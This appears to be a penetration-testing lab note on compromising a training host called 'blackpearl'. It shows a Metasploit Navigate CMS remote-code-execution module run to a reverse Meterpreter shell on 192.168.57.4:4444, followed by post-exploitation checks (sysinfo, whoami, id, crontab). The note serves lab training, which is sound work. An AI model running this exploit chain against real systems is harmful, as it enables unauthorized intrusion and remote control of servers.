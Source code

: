 ```yaml
---
aliases: 
tags:
  - tech
  - cybsec
  - penetration_testing
  - report
author: Mehdi N Tehrani
creat_date: ""
category: Cyber Security
subcategory: Penetration Testing - Report
---
```


#  meterpreter shell
https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/
https://www.exploit-db.com/exploits/45561
Module: `multi/http/navigate_cms_rce`

```
options:
RHOSTS     192.168.57.12
VHOST      blackpearl.tcm

msf6 exploit(multi/http/navigate_cms_rce) > run

[*] Started reverse TCP handler on 192.168.57.4:4444 
[+] Login bypass successful
[+] Upload successful
[*] Triggering payload...
[*] Sending stage (39927 bytes) to 192.168.57.12
[*] Meterpreter session 1 opened (192.168.57.4:4444 -> 192.168.57.12:55574) at 2023-12-06 20:33:29 +1100

meterpreter > 
```

```
meterpreter > sysinfo
Computer    : blackpearl
OS          : Linux blackpearl 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64
Meterpreter : php/linux
```

```
meterpreter> shell
$ whoami
www-data

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## cron jobs
```
$ crontab -l
no crontab for www-data
```
